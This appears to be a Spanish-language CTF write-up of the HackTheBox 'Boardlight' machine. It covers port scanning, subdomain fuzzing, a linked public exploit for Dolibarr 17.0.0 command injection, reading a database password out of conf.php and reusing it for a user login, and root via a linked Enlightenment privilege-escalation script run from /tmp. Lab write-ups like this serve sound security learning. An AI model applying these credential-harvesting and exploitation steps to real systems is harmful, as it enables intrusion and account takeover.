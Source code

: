```yaml
---
title: Boardlight Writeup
author: l0n3
date: 2025-03-23
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, Dolibarr 17.0.0 exploitation]
---
```


```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:14 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -vvv -Pn -oG ports 10.10.11.11
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.11 ()    Status: Up
Host: 10.10.11.11 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Sun Mar 23 09:38:32 2025 -- 1 IP address (1 host up) scanned in 18.40 seconds
```

Puertos 22 y 80 abiertos. Por lo tanto realizo un nmap para ver las versiones que corren en estos. 

```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:57 2025 as: /usr/lib/nmap/nmap --privileged -p22,80 -sCV -oN versions 10.10.11.11
Nmap scan report for 10.10.11.11
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 23 09:39:20 2025 -- 1 IP address (1 host up) scanned in 23.24 seconds
```

Al realizar un directory listing solo me mostro los directorios, js, css e images. Nada importante, asique veo de hacer un crawling de los subdomains y este fue el resultado.

```bash
$ ffuf -u http://board.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" -fl 518

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 518
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 228ms]
```

Vemos un crm ahi con status code 200.

![image](https://github.com/user-attachments/assets/40c054cd-9f50-41d1-bacb-2cacd0e1b10d)

Lo primero que llama la atencion es ver la version, por lo que podemos hacer una pequeña busqueda, y ver que es dolibarr y su latest version.

```bash
**Dolibarr ERP/CRM** es un software de [Planificación de Recursos Empresariales] (PRE, ERP en inglés)
```

Exploit en dolibarr 17.0.0 PHP cammand injection

```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

![image](https://github.com/user-attachments/assets/3870ce3b-0b2f-4494-ac45-e95612f43a7c)

Tenemos que migrar al user larissa que vemos en el /etc/passwd para poder tener la primer flag.

si busco recursivamente en el directorio en el cual estoy situado por algun archivo conf para ver si hay credenciales, obtengo lo siguiente.
```bash
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
```

```bash
./htdocs/public/project/suggestconference.php
./htdocs/theme/common/fontawesome-5/svgs/brands/confluence.svg
./htdocs/theme/common/fontawesome-5/js/conflict-detection.js
./htdocs/theme/common/fontawesome-5/js/conflict-detection.min.js
./htdocs/theme/md/ckeditor/config.js
./htdocs/theme/eldy/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/bender-runner.config.json
./htdocs/includes/ckeditor/ckeditor/build-config.js
./htdocs/includes/ckeditor/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.html
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.md
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.png
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.gif
./htdocs/includes/tecnickcom/tcpdf/tcpdf_autoconfig.php
./htdocs/includes/tecnickcom/tcpdf/config
./htdocs/includes/tecnickcom/tcpdf/config/tcpdf_config.php
./htdocs/install/mysql/data/llx_holiday_config.sql
./htdocs/install/fileconf.php
./htdocs/admin/eventorganization_confbooth_extrafields.php
./htdocs/admin/eventorganization_confboothattendee_extrafields.php
./htdocs/conf
./htdocs/conf/conf.php.old
./htdocs/conf/conf.php.example
./htdocs/conf/conf.php
```

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

aca -> $dolibarr_main_db_pass='serverfun2$2023!!'; 
vemos esta contraseña la cual podemos ver si se esta reutilizando en el user larissa.

y asi era.

```bash
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
```

-----------------------------

```bash
searchsploit enlightenment      

Exploit Title  

Enlightenment - Linux Null PTR Dereference Framework                   
Enlightenment v0.25.3 - Privilege escalation
```

y en la maquina vemos que correo la version XX

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00000 [0.00000] - Begin Startup
ESTART: 0.00005 [0.00004] - Signal Trap
ESTART: 0.00006 [0.00001] - Signal Trap Done
ESTART: 0.00007 [0.00001] - Eina Init
ESTART: 0.00027 [0.00019] - Eina Init Done
ESTART: 0.00029 [0.00002] - Determine Prefix
ESTART: 0.00041 [0.00012] - Determine Prefix Done
ESTART: 0.00043 [0.00002] - Environment Variables
ESTART: 0.00044 [0.00001] - Environment Variables Done
ESTART: 0.00045 [0.00001] - Parse Arguments
Version: 0.23.1
```

por lo tanto tenemos una via de explotacion en la version de este binario para escalar privilegios.

```bash
https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
```

En el directorio /tmp metemos el script, le damos permiso de ejecucion y lo ejecutamos.


![image](https://github.com/user-attachments/assets/210ed71c-12ea-4730-a12d-ad3929a8122d)

Por lo que ahora si ganamos la segunda y ultima flag para terminar la maquina.


